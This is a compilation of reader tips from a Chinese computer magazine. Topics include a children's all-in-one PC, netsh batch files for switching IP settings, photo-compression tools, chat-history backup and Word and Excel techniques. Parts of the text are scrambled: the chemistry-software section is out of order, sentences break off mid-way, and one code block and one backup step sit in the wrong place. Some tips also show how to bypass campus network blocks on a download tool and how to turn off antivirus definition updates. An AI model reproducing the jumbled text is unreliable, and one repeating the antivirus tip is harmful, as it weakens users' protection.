“计算机要从娃娃抓起”这句话早就成真理了，谁也不希望自己的孩子输在起跑线上。简单而言，儿童学习用的电脑对硬件的要求不用太高，集成显卡的机型即可，因为很多家长会担心孩子会过度沉迷游戏，其次，产品得有过硬的质量，屏幕效果柔和不刺眼，机箱内不能散发出异味，这是为儿童的健康着想。当然，如果厂商为电脑预装了各种教学软件那就更好了。除此之外，好看的外观也会更吸引儿童使用。

### 推荐产品：联想C325触摸型

C325是联想专门为儿童教育推出的一款一体式电脑，内置了很多教育软件，还有丰富的绘图故事和有声读物，包括一些休闲益智的小游戏。如果选购触控屏幕版，那就更好玩了，孩子可以用自己的手指在屏幕上轻松操控电脑，这可比市面上那些功能简陋、价格高昂的点读机要强太多了。C325使用的是红外感应式光学触摸技术，只需轻轻触摸即可响应，而不需要手指用力按下，更适合儿童使用。

| 项目 | 参数 |
| --- | --- |
| CPU | 双核AMD APU E450, 1.65GHz |
| 内存 | 2GB DDR3 |
| 显卡 | 集成Radeon HD 6320 |
| 显示器 | 20英寸宽屏, 1200×900, 多点触控 |
| 硬盘 | 500GB |
| 光驱 | DVD刻录机 |
| 网络连接 | 有线网卡 |
| 外形尺寸 | 505mm×395mm×100mm |
| 重量 | 6kg |

## 总结

由于先天的优势，一体式电脑从使用体验到外观、节能等众多方面都优于传统台式机。我们完全可以预见在未来一体机肯定会占据很大一部分的台式机市场。如果你的使用环境与本文所描述的场景符合，那么就可以优先考虑一体机，提前享受整洁高效的科技生活了。

## 搜狗力助迅雷突破封锁

在2009年第22期《跨越鸿沟，突破新型迅雷封锁》一文中，作者介绍了通过给迅雷设置代理服务器的方法，但目前从网上搜索到的代理服务器普遍不稳定，而且有速度限制。其实只要安装搜狗浏览器并开启全网加速功能，然后在迅雷中设置代理服务器为搜狗全网加速功能使用的代理服务器，就可以稳定、无速度限制地享用迅雷的高速下载了。

- 第一步：从搜狗浏览器官网 (http://ie.sogou.com) 下载搜狗浏览器并安装。打开搜狗浏览器，单击浏览器界面右下角的火箭图标，启用全网加速功能。让搜狗浏览器最小化，保持运行状态。
- 第二步：打开迅雷，单击右上角菜单栏中的“工具”，选择“代理设置”，在打开的“配置面板”窗口中选择“使用自定义代理服务器”，然后单击“代理服务器管理”按钮。
- 第三步：在“代理管理”窗口中，单击“添加”按钮。“代理名称”输入任意名称，如“sougou”，“服务器”输入“127.0.0.1”（注意要在英文输入法状态下输入），“端口”输入“8081”，其他保持默认。单击“测试”。若弹出“验证成功”窗口，则表明代理服务器设置成功。单击“确定”关闭，弹出“将代理应用到所有可用的连接”提示，选择“是”。

经过以上设置后，迅雷已成功突破封锁。今后只要先运行搜狗浏览器，再打开迅雷就可以轻松突破网络封锁，稳定、高速地下载文件了。

点评：
在大专院校的教育网内，封锁迅雷的攻防战始终就没有停止过。本文为大家提供了更简单的突破封锁的方法，只是不知其有效寿命能有多长。
（文/钟锋）

## 用打印机自带功能轻松打印小册子

在2011年第6期的《出版小册子你自己也能》一文中，介绍了使用金山WPS文字处理软件进行书籍折页打印的方法，比较复杂。而现在很多打印机都带小册子双面打印功能，能轻松打印小册子。下面以hp LaserJet 1010打印机为例介绍在金山WPS文字、微软Office Word或Adobe Reader等软件中打印小册子的方法。

- 1. 执行菜单命令“文件→打印”，点击“属性”，在弹出的“hp LaserJet 1010属性”对话窗口点击“完成”选项卡，勾选“双面打印（手动）”，在“小册子打印”下拉菜单中选择“A4（左边装订）”，点“确定”。
- 2. 此时打印机会弹出“双面打印说明”窗口，按提示步骤操作即可完成小册子的打印。

点评：
HP的激光打印机只要有双面打印功能（无论是手动双面还是自动双面）大多都带小册子打印功能，EPSON和兄弟的打印机有些型号也有此功能。此方法很省事，不过如果你的打印机不支持此功能，只好还用原文介绍的方法啦。
（文/韩清伟）

## 也谈本本的IP更换

《电脑爱好者》2011年第5期刊登了《本本上下班任你换》的文章，本人正好需要，赶紧从百度搜了一下“IP任你换”这款小软件，结果软件下载后杀毒软件都报警，实在不敢冒险安装。仔细想了一下，想到了多年不用的DOS命令，既简单又安全。

### 一、新建一个文本文件

内容为(每个netsh开头的语句为一条命令，中间不可以加回车断开)：

```
netsh interface ipv4 set address name=本地连接 source=static addr=10.51.52.153 mask=255.255.255.0 gateway=10.51.52.1 gwmetric=0 >nul
netsh interface ipv4 set dns name=本地连接 source=static addr=202.102.152.3 register=PRIMARY >nul
netsh interface ipv4 add dns name=本地连接 addr=218.56.57.58 index=2 >nul
```

保存后关闭此文件，将文件名改为“办公室.bat”。

用同样的办法建立“家.bat”，内容为：

```
netsh interface ipv4 set address name=本地连接 source=static addr=192.168.0.4 mask=255.255.255.0 gateway=192.168.0.1 gwmetric=0 >nul
netsh interface ipv4 set dns name=本地连接 source=static addr=202.102.152.3 register=PRIMARY >nul
netsh interface ipv4 add dns name=本地连接 addr=218.56.57.58 index=2 >nul
```

修改为如下内容：

```
netsh interface ipv4 set address name=本地连接 dhcp >nul
netsh interface ipv4 set dns name=本地连接 dhcp >nul
```

以上方法在Windows 7中测试通过。若是在Windows XP/2003/2000中使用，将命令中的第三个单词ipv4改为ip就可以了。

### 二、更改IP地址

在办公室使用时双击“办公室.bat”，在家里使用时双击“家.bat”。

命令说明：第一条命令是设置IP地址、子网掩码、网关，name是网络连接的名称，一般是“本地连接”，安装过多个网卡的可能会是“本地连接1”“本地连接2”之类，可打开网络连接页面查看；addr是要设置的IP地址，mask是子网掩码，gateway是网关，大家可根据自己的实际IP地址和网关进行设置。

第二、三行是设置dns，将addr后面的地址修改为自己的dns即可，dns一般是通用的，如果办公室与家里的相同，可以把第二、三行删除，省时省力。

若家里的网络是自动获取IP和dns，可以将家.bat修改为如下内容：

小提示：
1. 如果电脑上安装有防火墙，可能会提示netsh程序“试图修改网络设置”的危险警告，选择“允许程序的所有操作”即可。
2. 从自动获取IP地址更改为固定IP时，可能会出现网关设不上的问题，再运行一次程序就可以了。
3. 个别电脑会出现找不到framedyn.dll文件的问题，一般是由于环境变量被破坏或改动导致。解决方法：右击“我的电脑”，选择“属性→高级→环境变量”，编辑变量名叫path的变量，看里面是不是包含“%SystemRoot%\\system32;%SystemRoot%;%SystemRoot%\\System32\\Wbem;”，如果没有引号中的内容，将其添加上就可以了。

点评：
DOS真的像千年不死的精灵，没准儿什么时候就出来露一手，而且解决问题的方法还超快捷。更可爱的是我们可爱的作者，能把DOS玩弄于股掌之间。
（文/张洪星）

## 试卷分栏页码简单制作

2011年8期有一篇《标准试卷亲手排》的文章，拜读后觉得第二部分制作密封线以及第三部分制作分栏页码有点“杀鸡用牛刀”的感觉。尤其是分栏页码制作，原文是通过“域”来实现的，而很多朋友都没有经过专业培训，对“域”感觉太专业。那有没有操作简单、通俗易懂的方法呢？其实，只需一个小小的文本框就能轻松实现分栏页码的制作。

### 分栏页码很简单

大家都知道，考试时因时间制约，试卷一般不会设计得太长，一般都控制在一两个版面。因此，页码的制作也就相对简单了许多。

- 第一步：当试卷分栏后，在文档中单击“插入”选项卡，然后在“页眉和页脚”功能区中单击“页码→页面底端→普通数字”。
- 第二步：待页码插入后，将光标定位到页脚区，先将插入的页码删除，再返回文档单击“插入”选项卡，在“文本”功能区单击“文本框→绘制文本框”，并在页码编辑区单击“确定”关闭对话框。
- 第三步：将鼠标指针指向文本框边框，待鼠标指针变成十字时，右击鼠标选择“复制”，然后将光标定位到右侧一栏下方合适位置，右击鼠标执行“粘贴”，再修改相应页码。最后在左侧一栏下方合适位置拖动鼠标绘制一个文本框，然后在文本框中输入“第×页 共×页”。
- 第四步：之后在文本框边框上右击鼠标，选择“设置文本框格式”，并在打开的“设置文本框格式”对话框中的“颜色与线条”选项卡下，将“线条颜色”设置为“无”，关闭页脚，分栏后的页码制作完成。

### 双页面页码巧设置

如果试卷内容较多需要占用两个版面时，试卷制作完成后我们就需要双面打印，并且还要对下一个版面的页码进行设置。首先是在“页面布局”选项卡下的“页面设置”功能区中单击启动器开关，打开“页面设置”对话框，在打开的“页面设置”对话框中的“页边距”选项卡下，选择并设置好“装订线”，然后单击“版式”选项卡，在“页眉和页脚”下将“奇偶页不同”勾选，最后单击“确定”退出。再次激活页脚编辑区，将第二个版面的页码进行相应修改即可。至此，试卷页码制作完毕。

写在最后：其实试卷密封线的制作也可以直接用文本框实现。在“页面设置”中设置好装订线后，在页面的装订线位置直接插入一个竖排文本框，输入密封线内容，再将文本框边框线条设置为“虚线”即可。

点评：
页码只有几页时，确实有很多灵活的插入方法。电脑爱好者里的Office达人很多，让我们分享他们的灵巧成果吧。
（文/刘长德）# 照片分享压缩 服务各具特色

《电脑爱好者》2011年第0期的“照片上传前在网上极速瘦身6倍”一文，介绍了一个比较强悍的瘦身网站，看后笔者觉得，如果算上照片上传、转换、下载的时间，那么其方法并不占太大优势。再说，现在的照片瘦身和分享技术比较成熟，每种方法都能取得不错的效果，大家完全可以选择更简单的方法来保存或分享照片。

# Minus 分享最简单

就分享照片而言，Minus这个图片分享网站是笔者最推荐的服务，操作简单方法灵活，只能在Firefox, Chrome, Safari浏览器使用。它不具备图片瘦身功能，却是大家与远朋亲朋分享照片的最佳选择。
打开网页后（网址：http://min.us/），把所有要分享的照片直接拖到浏览器界面中，照片就会自动上传到网站永久保存，同时在网页右侧的小窗口中生成一个分享链接，随后把Share文字右侧的链接复制下来发送给好友就可以了。
好友打开链接后，通过网页就能查看照片。页面中只会清晰显示一张照片，其它照片则模糊显示，利用两侧的箭头可以切换。单击显示的照片，可以在打开的网页里以原始分辨率查看。如果要把照片打包下载，只要单击小窗口中的Download all as a zip即可。

# VSO 转换最迅速

如果只想瘦身照片的话，最快的工具当属VSO Image Resizer（下载地址：http://dl.pconline.com.cn/download/52003-1.html），通过鼠标右键菜单，就能完成转换操作。
第一步：软件安装后，先右击一幅照片，选择VSO Image Resizer命令打开程序界面，切换到“设置”标签，单击“操作”文字右侧的下拉箭头，选择“建立副本”选项。这样可以避免原始照片被覆盖。
第二步：单击“设置”按钮，切换到“高级”标签，勾选“快速访问选定配置文件”选项，并在下方勾选常用的分辨率，比如800×600, 1024×768等，随后勾选“开始处理”选项，单击“确定”按钮完成。
经过以上设置，以后在转换照片时，只要先在照片上右击鼠标，在弹出的“快速配置”级联菜单中，选择所需要的分辨率即可完成。转换后的照片将被改变名称并存放在原文件夹里。

# RIOT 设置最灵活

上面两个服务在照片分享和转换速度上，无疑能给大家提供不少便利，但若提及文件的压缩体积，那么RIOT（下载地址：http://download.crosweb.ro/riot-setup.zip）这款软件就不得不提了，我们不仅可以指定文件的分辨率、品质，甚至可以直接向软件讨要压缩后的照片体积，效果当然不在话下。这样转换出来的照片，体积缩小岂止6倍？
第一步：打开照片。
打开程序界面，左侧窗口显示原始照片，右侧则是转换后的预览窗口。单击Open按钮，选择一张照片打开，询问是否转换照片。为便于说明，我们先单击No按钮，照片便同时出现在两个窗口。
第二步：设置参数进行转换。
按下CTRL+R组合键，调出转换设置对话框，在Width和Height文字右侧的文本框里，输入转换后的照片宽度和高度像素值，单击下方的下拉箭头，选择目标图像的品质（越上的选项，品质越高），单击OK按钮，在两个窗口就会显示出原始图像和转换后的效果，同时在窗口上方显示文件体积。如果对效果及体积满意的话，此时就可以单击工具栏中的Save按钮导出保存了。
第三步：指定体积转换。
即便经过上述处理，照片体积仍不能令你满意，那就让软件按指定的体积大小进行转换。单击界面右侧的Compress to size按钮，在弹出的对话框中直接输入要求的照片文件体积，比如80（单位为KB），单击OK按钮，软件自动完成转换，最后保存图像即可。
小提示：
RIOT也支持批量转换操作，在程序主界面单击Batch按钮打开批量转换界面，单击Add images按钮，添加所有要转换的照片；单击Additional tasks按钮，对照片的分辨率、宽高度及品质、体积进行设定（随后也可指定体积大小）；单击Settings按钮，选择原始照片的处理方法，再单击…按钮设置导出路径，最后单击Start按钮即可完成。
点评：
这位作者可称得上是图片达人，对各种图片处理软件都有较深的了解。如果你也有这类处理图片的需求，试试他提供的方法，没准儿就有适合你的哦。

# 暴风截取SWF视频转换被拒

2011年第9期回顾《视频截取 暴风完成》一文是用暴风影音来截取视频，但我用新下载的最新版暴风影音截取SWF格式的文件时转换出问题，看来它对部分SWF格式文件不允许转换。其实使用Amor SWF to Video Converter（SWF视频转换工具）V3.0特别版，就能不用麦克风连同声音一起转换过来。
软件虽然是英文版，但使用不难。打开程序后先设置输出的保存路径：选择菜单Options→Settings→General→Use below→OK。
接下来添加SWF文件，并转换成视频格式：点击菜单Add Files把SWF文件添加进来，右击添加进来的SWF文件，选择“Convert to video→Convert to MPEG”完成转换，最后打开C:\My Documents，就能看到转换后的mpg格式文件。
点评：
该作者为了验证原文推荐的办法，特意重新下载了官方最新版的暴风影音（虽然暴风有很多广告插件但还是安装了），但在转换SWF格式文件时被打红叉。同样遇到此问题的读者也可试试这个方法。

# 不用软件 通过网络硬盘漫游表情

2011年第9期的《QQ涂鸦魔法表情免费拥有加漫游》一文介绍了用画易传情免费获得表情并漫游的方法。其使用QQ自带的网络硬盘也可以搞定，而且不需要用软件，操作起来十分简单。
首先任意打开一个聊天窗口，点击表情图标，点击“表情管理”，点击“导入导出→导出全部自定义表情”。
然后保存。为了缩小文件体积，加快上传速度，先用压缩软件进行压缩（我的表情压缩前是1.23MB，压缩后为56KB），然后点击QQ聊天界面左下侧列表中的“网络硬盘”，并切换到“收藏夹文件”下，点击“上传”，选择刚压缩的表情文件，稍等片刻就上传成功了。
以后不管在哪使用这些表情，只需进入网络硬盘，将其下载解压，在表情窗口中选择“导入导出→导入表情”即可。
点评：
QQ的魔法表情魔力还真不小，大家都喜欢，不用软件也能够免费拥有，当然就更方便啦。

# Excel轻松排名次我也行

认真阅读了2011年04期《Excel轻松排名次》一文，该文作者按编辑要求完成了“绝对挑战”的积分排名，但操作步骤略显繁琐。我充分利用函数，可以简化操作过程。
第一步：先删除多余数据（第1行和C、D两列），接着在C2单元格输入公式“=IF(ISNA(VLOOKUP(A2,A$1:A$11,1,FALSE)),SUMIF(A$2:A$86,A2,B$2:B$86),-1)”，并向下自动填充，计算出各选手的总积分并以“-1”标出多次上榜的选手，如图1所示。
第二步：排序。依次执行“数据→排序”，按主要关键字“（列 C）”降序排序，此时单元格区域（A2:C41）的数据就是编辑所要的数据，如图2所示。
第三步：制作图表。先选中（A2:A41），按下Ctrl键不放，再选中（C2:C41），接着单击常用工具栏中的“图表向导”按钮，在图表类型中选中“簇状柱形图”，单击“完成”，适当调整图表大小，最后效果如图3所示。
点评：
这是“绝对挑战”栏目里出的挑战题，是有一定的挑战性，各路高手自有高招。







# 变下载专用链接为我需格式

辛苦淘到某个好电影的下载地址，却发现下载网站只提供某一种下载软件的独家专用链接，而自己的电脑却没装此种下载工具。迅雷&快车&旋风地址转换工具（http://www.onegreen.net/Soft/ShowSoftDown.asp?UrlID=2&SoftID=26406）可以方便地将几种常见下载工具（HTTP/FTP、QQ旋风、快车、迅雷）的专用链接地址进行任意转换。

打开名为LinkConverter的转换工具，在输入区粘贴上之前采集的下载链接，再在右边操作区点击相应的按钮就能将其转换为我们需要的下载链接。例如输入普通地址（HTTP/FTP），点击“输入地址>>迅雷地址”就可以将原来的http下载链接生成新的以thunder开头的迅雷专用下载链接，将生成的链接复制到迅雷的新建任务里就可用迅雷下载了。
（文/滕鸿伟）

# 迁移个人数据 点点鼠标就行

看了2011年第4期《一个命令轻松迁移个人数据》一文后，发现这个操作有些麻烦，对于菜鸟们可能无法操作。其实无需任何命令就可以完成，下面看看我是如何完成“我的文档”文件夹的迁移吧。

进入个人数据文件夹后，在“我的文档”文件夹上右键单击，选择菜单中的“属性”项打开“属性”对话框，切换到“位置”标签，点击“移动”按钮，从弹出的“选择一个目标”对话框中选择保存“我的文档”的文件夹位置后，点击“选择文件夹”按钮返回。确定后在弹出的“移动文件夹”提示框中选择“是”，就完成了“我的文档”数据的迁移。以后保存到“我的文档”中的数据都会保存到设置的新位置。

其他的链接，我的图片等个人数据文件夹，都可使用同样的操作来完成迁移。简单方便吧！

点评：
原文的方法是比较全面的搬移，用到了命令，而这个方法是有针对性的分别搬移，各有所长吧。
（文/赵晓琴）

# 常用打包密码存好 一点即用

上级单位经常把加了密的资料压缩包挂在网上让下级单位去下载，并且常常就是那么几组密码，每次重复输觉得麻烦，可以将它们存储起来随时调用。新版本WinRAR 4.0 beta1提供的密码管理功能可以帮你忙。

依次打开“选项→设置→压缩→创建默认配置→高级→设置密码”按钮，在打开的“输入密码”对话框中可以发现关于“管理密码”的选项，单击之后即可打开“密码管理”对话框，单击“添加”按钮按照提示创建密码，可以在这里依次创建自己经常使用的密码，最好同时指定一个密码标记（也即“卷”）。如果没有定义标记，标记列将显示密码原文文本。设置之后，以后每当打开“输入密码”对话框时，就可以在“输入密码”下拉列表框中选择已经存储的密码，直接确认即可，不需要重复输入。

这些密码都是以明文的方式保存在计算机注册表HKEY_CURRENT_USER\Software\WinRAR\Passwords键下，因此千万别在公共计算机上使用该功能，以免泄漏个人信息。
（文/陈晓军）

# 调高安全级别 轻松复制网页

很多网页在代码中加入一些指令关闭了鼠标右键功能，让你无法复制。用记事本或FRONTPAGE查看网页HTML源文件，或者自定义IE浏览器安全级别或使用专门的软件禁止运行脚本程序，这些方法都有点麻烦。于是我摸索并找到了一个比较简单的方法，那就是将浏览器的安全级别设为高即可。

例如当你打开网页试图进行先选中再复制的操作时，系统弹出“请勿复制”的对话框，这时打开IE浏览器，选择“工具→Internet选项→安全”，将该区域的安全级别调至“高”，确定保存退出。按F5刷新一下页面后，这时你会发现可以用鼠标对网页进行选中、复制、粘贴等操作了。

注意：一定要在自己需要的网页出现时才这么做，因为浏览器的安全级别设为高后，它将以最安全的方式运行，会让脚本程序、ActiveX等统统禁止运行，这样也会导致一些网页特效失灵。若想恢复正常再单击“默认级别”即可。
（文/陈晓军）

# 小小插件 大大用处

最近在2011年5月15日出版的第10期《电脑爱好者》上读到一篇关于下载MV的文章《下载高清MV何需酷狗》，文中提到通过安装软件来下载音悦台的MV。其实用Firefox的朋友不必如此麻烦，只需一个插件就足以担当此大任。这就是NETVideoHunter（http://mozilla.com.cn/seleotions/addon/20/）。

当你通过Firefox浏览音悦台上的MV时，NETVideoHunter就会自动捕捉到该MV的链接地址，并在浏览器右下方状态栏的图标中显示可下载的视频数。此时，点击Firefox上的NETVideoHunter图标，选中想下载的MV后点击下载，很快就可以将想要的MV下载下来了，并且默认格式为flv，适合绝大多数播放器播放。

同时，对于优酷、土豆等视频网站，NETVideoHunter可以将分段存储的视频自动加入到下载列表，省去更多不必要的麻烦。
（文/黄栋明）

# 化繁为简 自有高招

2011年第8期《移动维护更方便 打造USB版Win7》思路很好，但从长长的注册表操作来看，非你我菜鸟能消受，所以另辟蹊径寻求微软自家工具来解决。

使用Windows 7 USB /DVD Download Tool，通过四个简单的步骤即可解决问题。运行该工具，选择下载好的Windows 7的ISO文件，单击“Next”按钮，按实际情况选择USB设备或DVD按钮，插入U盘，点击Refresh找到盘符（注意U盘至少有4GB空间），单击Begin copying，就可以享受成功的喜悦了。
（文/段晓东）

# 续谈《修复Word安全模式打开问题》

《电脑爱好者》2011年第7期、第2期以及2010年第24期的《回音壁》栏目都提到如何修复Word以安全模式打开的问题，不同之处在于解决Normal.dot文件的方式不一样，有的是手工删除；有的是通过下载相应的软件来处理；还有就是拷贝正常的Normal.dot文件到故障机器上。

我认为在这些方法当中，手动删除Normal.dot文件还是比较好的快速解决之道，只是找到存放该文件的位置（即“C:\Documents and Settings\用户名\Application Data\Microsoft\Templates”目录）太麻烦了。本人在给单位的电脑安装OA办公平台系统时也遇到过这种情况，经过摸索找到了一种快速定位到Normal.dot文件的方法。

进入以安全模式运行的Word软件中，依次点击“工具→模板和加载项”，打开“模板和加载项”窗口中的“模板”对话标签，再单击“选用”按钮，此时系统便会自动定位到“C:\Documents and Settings\用户名\Application Data\Microsoft\Templates”目录，右击列表框中的“Normal”文件将其删除即可，重启Word便一切正常了。
（文/陈晓军）

# 截取视频片段请把声音也带上

2011年第6期《视频片段任截取 课件素材不发愁》一文，介绍了使用Snagit工具截取Flash文件片段插入课件的技巧。使用这一技巧免去了先将Flash文件转换成视频，再使用QQ影音或暴风影音来截取视频片段的麻烦，截取的图像效果很好，操作简单方便。但我试用多次，截取的片段只有图像却没有声音。其实对系统进行一下设置就能同时得到声音了。以XP系统为例，Windows 7系统也可参考。

# 一、系统音量设置

使用Snagit工具截取Flash文件片段前，双击任务栏托盘上的“音量”图标打开主音量窗口，依次点击菜单“选项→属性”项，在“属性”对话框的“混音器”后选择“Realtek HD Audio Input”项（电脑的声卡不同，该项前面的字符会略有不同，总之选择含有“Input”字符的项即可），再在显示下列音量控制区中勾选“立体声混音”项（此项默认下没有勾选）。最后点击“确定”返回到主音量窗口，将录音控制、立体声混音等项“静音”前的对钩去掉。

# 二、软件设置

启动Snagit工具，按原文进行设置，选择“视频捕捉”，点击“捕捉”菜单，勾选“包含音频”项。这样设置一次后，再使用Snagit工具截取Flash文件片段，就能保证声音和图像同时被截取了。

点评：
不少读者看了第6期那篇文章后，尝试时都遇到没有声音这个问题，而原文当时忽略了这个事情，其实像这样简单设置一下就可以解决了。（文/王彦博）

# 简单快捷为Win7资源管理器添加常用按钮

2011年第8期的《巧改造 让Win7资源管理器更好用》一文，通过修改注册表为资源管理器窗口添加复制、剪切、删除等按钮，效果不错，但操作有一定的难度，也有一定的危险性，有时会让系统不稳定。而“Win7经典开始菜单 Classic Shell”这个小工具就可以实现这些功能，而且可以根据需要随时增删按钮。

修改开始菜单到XP经典模式(安装软件后无需设置即可生效)，就将Classic Start Menu项选择为不安装方式，其它默认即可。在资源管理器窗口的菜单栏上右击并勾选Classic Explorer Bar项，就会在菜单栏右侧显示复制、剪切、删除等常用按钮集，直接点击即可使用。默认的几个按钮不能满足需要，可以点击最后一个“设置”按钮打开设置窗口，切换到Toolbar

Buttons选项卡，从右侧窗格中将需要的功能按钮拖放到左侧窗格中适当位置。双击添加的按钮名称，为其选择显示时的图标等(也可采用默认)，添加成功后重新打开资源管理器即可使用添加的按钮了。比如我经常需要使用大图标方式浏览图片，并为图片命名，就为自己添加了View Large Icons(大图标显示)和Rename(重命名)按钮，使用时只需一点就OK了。

从http://www.ouyaoxiaizai.com/soft/stgi/134/16908.html下载软件。安装时，如果不希望

(文/博言)

# 复杂化学结构式 专用软件更方便

《电脑爱好者》2011年第9期《复杂化学结构式 简单画图巧解决》一文中提到可以用Windows自带的“画图”软件来搞定复杂的化学式，感觉操作有点繁琐，何况有时我们要用Word写化学相关论文该怎么办呢?其实我们可以从http://ishare.iask.sina.com.cn/f/7243961.html?from=like下载微软研究院和剑桥大学研发的“Chemistry Add-in For word”插件，使得在Word 2007中插入和修改化学符号变得异常轻松。

言)，不但可以组织和输入化学符号、公式，而且还可以输入这些化学结构式的数据。虽然该插件是英文界面，不过这对于化学专业的工作人员来说，应该很容易上手操作。另外，该插件还需要.NET Framework3.5的支持。

按钮，在编辑区域拖放即可。工具栏中这几个按钮的功能如果能灵活运用，再复杂的化学结构式都能顺利输入：一是Selection(即箭头按钮)，利用它可精确改变符号位置；二是Free rotate，用它可以对符号进行任意角度旋转；三是上下标按钮(该工具栏通过“View→Style bar”调出)，化学分子式中的上下标输入离不开它们。结构式画出后，再用截图软件插入到WPS或Word文档中即可。

安装该插件后，Word 2007中将新增一个“Chemistry”菜单，它具备打印级别的可视化化学结构符号的创建和化学信息的保存和导出功能，通过使用CML(Chemical Markup Language 化学标记语言)

(文/陈晓军)

《复杂化学结构式 简单画图巧解决》思路不错，但遇到没有现成化学结构式的情况，就无法进行下去了。作为化学老师，建议用软件Chemwindow (下载地址：http://file1.foodmate.net/foodziliao/file2/200709081516.rar)来输入复杂化学结构式。软件运行后，只要从工具栏中选择结构式图标

(文/曹春华)

点评：解决专业问题，当然应该用专用工具啦。两位朋友分别推荐的专业插件和工具软件，专业人士可以试试哦。

# 批量创建全班文件夹更便捷

2011年第5期《建立全班文件夹 老师只用记事本》一文，介绍在记事本中用替换命令处理学生名字，然后用MD命令建立多个文件夹，思路很新颖。这里向大家介绍用软件New Folder Wizard (下载地址：http://www.52z.com/soft/17901.html)来批量建立全班文件夹的方法，只需几步即可搞定。与上述方法比较，这种方法更简捷。



第一步：一般老师的电脑中都有学生电子档案，比如Excel文档用于存放学生的平时成绩，从中选中姓名一列，复制到记事本中，每个姓名自动占据一行。保存该记事本文件(见图1)。

第二步：运行软件New Folder Wizard，单击目标文件夹右侧的“浏览”按钮，指定生成文件夹的存放位置，然后勾选“从文本里获取目录名”，再单击文本文件右侧的“浏览”按钮，打开事先准备的记事本文件，单击“预览”，即可在“新建目录预览”列表中看到批量生成的文件夹效果，最后单击“创建”即可(见图2)。



+   1. QQ聊天记录备份

进入QQ2011的文件夹如“E:\Program Files\Tencent\QQ\Users\QQ号码”，将其中的“msg2.0.db”文件复制出来保存到U盘或硬盘其它位置，需要恢复时复制回来覆盖该文件即可。

点评：DOS命令虽然时常能出奇效，不过并不是所有人都能掌控好它，所以对更多朋友来说，好用的软件可能会更方便。

(文/曹春华)

# 杀鸡焉用牛刀 菜鸟也能备份聊天记录

看了2011年第8期的“不怕崩溃 就算聊天记录也能备份”一文，感觉为了备份记录去安装一款工具软件有些麻烦，而且该工具会将聊天记录加密处理必须使用该软件才能还原。我试用时还发现对于我使用的绿色版QQ和阿里旺旺支持不好。其实无需任何工具，手动也能轻松备份QQ和阿里旺旺聊天记录，操作也超简单，只需进入相应文件夹，将聊天记录文件复制到其它位置，恢复时复制回原位置即可。

2. 阿里旺旺聊天记录备份

进入阿里旺旺的文件夹如“E:\Program Files\AliWangWang\profiles”，里面有以旺旺号命名的文件夹，它就是保存设置数据和聊天记录的，将这个文件夹复制出来保存就OK了。

(文/王彦博)

# 关掉QQ电脑管家病毒库的自动更新

很多朋友安装QQ电脑管家只是为了QQ加速升级，并不是用来查杀病毒，可是QQ电脑管家动不动就在线更新病毒库，影响了我们的工作和娱乐。怎样才能不删掉QQ电脑管家又不让它自动更新呢？先登录QQ电脑管家，连上网络，过一会儿待QQ电脑管家开始自动更新病毒库时，它在托盘的图标上会出现一个黄色的涡旋，点击此图标打开电脑管家，在弹出的木马云查杀邀请计划中，取消“我接受木马云查杀邀请计划”这一项的选择。关掉此窗口，出现木马库更新提示框，点击“取消”，在查杀木马的主界面中找到“本地查杀引擎”，点击“木马库已过期 立即更新”后面的“关闭引擎”，确定后就可成功地关掉QQ电脑管家对病毒库的自动更新了。

(文/滕鸿伟)

# 利用主流浏览器捕捉非主流视频

2011年第7期《有了IE9 网页视频捕获不再难》一文，介绍了利用微软最新浏览器Internet Explorer 9.0中的“开发人员工具”捕捉视频网站资源的方法。其实Google开发的Chrome浏览器也自带了强大的“开发人员工具”，只需在浏览网页时按快捷键Ctrl+Shift+I即可调用。

相对于IE9，Chrome详细地对相关资源按大小、下载时间进行分类，非常有利于找到有用资源。最关键的是Chrome浏览器自带了图片优化功能，可以对龙源网(http://www.qikan.com.cn/)这样的在线杂志图片无极放大(按住Ctrl后，向上滚动鼠标滚轮)，非常方便我们这些囊中羞涩的杂志爱好者。

点评：
IE的功能经常比别的浏览器慢半拍，即使是IE9也没能逃出此“魔咒”。 (文/叶勇)

# 双击打开的压缩文件 你藏到了哪里

如果我们对WinRAR文件没解压，就直接用鼠标双击打开里面的文件，编辑修改并保存后，也许就找不到修改后的文件了。其实系统通常会将其存储在临时目录中，保存的也是这个临时目录中的文件，而原来压缩包里的同名文件不会有任何变化，存放在临时目录中的文件不会出现在“最近使用的文档”列表中，通过开始菜单中的搜索程序也无法找到它。

以Windows 7下的Word 2007为例，要找到这些临时文件的具体存储位置，只需再直接打开压缩包中的同类文档，然后执行“文件→另存为”命令，在“另存为”对话框中就可以看到。一般在C:\Users\Administrator\AppData\Local\Temp下前缀为“Rar$”的文件夹中（这里系统盘为C盘）。接下来只需顺藤摸瓜打开对应的临时文件夹，并根据文件的修改时间就可找到修改之后的文件。

如果是XP系统，直接打开RAR压缩包所产生的临时文件通常存储在C:\Documents and Settings\Administrator\Local Settings\Temp文件夹下。只要是保存过的各种临时文档，在没有使用过各种软件来清理系统的临时文件之前，通过类似的方法一般都能够找到。 (文/姚文连)

# 幻灯画面切换 可以自由控制

《电脑爱好者》2011年第11期的《幻灯画面切换 背景音乐不断》，原文说在PowerPoint 2007/2011中不能控制播放到第几页，这个说法是不正确的。

首先在幻灯片中插入音乐，随后请切换到“动画”选项卡，单击“动画窗格”，你会在右边的动画窗格中看到所插入的音乐。在音乐上单击右键，选择“效果选项”，就可以自由地控制幻灯片播放到第几页了。 (文/袁健)

# 多人写文章 一键合并另有妙招

2011年第8期的文章“多人合作写文章 一键合并好轻松”，通过Word 2007插入文档中的文字功能实现文档合并。但是如果文档带格式，比如“字号”、“段落间距”，用上述方式合并后会出现丢失的情况。

这里推荐使用WPS(6.6.0.2838)来合并文件，点击“插入→文件”，然后选择需要插入的Word文档即可完成。通过此方法可以保持不同文档之间的格式，免去了二次修改的麻烦。 (文/叶勇)

# 生成随机密码 字母数字任取

2011年第9期《用Excel生成随机密码》一文，介绍了在Excel中生成一个由字母和数字组成的随机密码的方法，方法很实用，但有一个缺点，就是密码的具体某一位只能是数字或者字母，而不能同时随机取数字和字母。这里补充两种方法，在Excel中生成的密码的任意一位可以随机取数字或字母。

